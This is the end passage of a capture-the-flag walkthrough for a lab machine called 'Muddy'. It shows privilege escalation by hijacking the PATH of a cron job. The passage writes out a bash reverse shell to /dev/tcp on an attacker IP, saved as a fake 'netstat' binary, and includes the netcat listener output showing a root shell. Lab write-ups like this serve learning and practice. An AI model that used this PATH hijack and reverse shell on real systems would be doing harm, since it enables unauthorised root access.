 > **Note:** The PATH variable is specified with a new directory `PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`. 
>
> So when the cronjob runs, the system will check for the `netstat` binary's existence in the `dev/shm` folder first and then it will search in other folders.

Create a reverse shell and save it as `netstat`, apply executable permission `chmod +x netstat` and wait for reverse connection.

**netstat**

```sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.200/1234 0>&1;
```

```sh
naveenj@hackerspace:|22:52|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40118
bash: cannot set terminal process group (16587): Inappropriate ioctl for device
bash: no job control in this shell
root@muddy:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@muddy:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).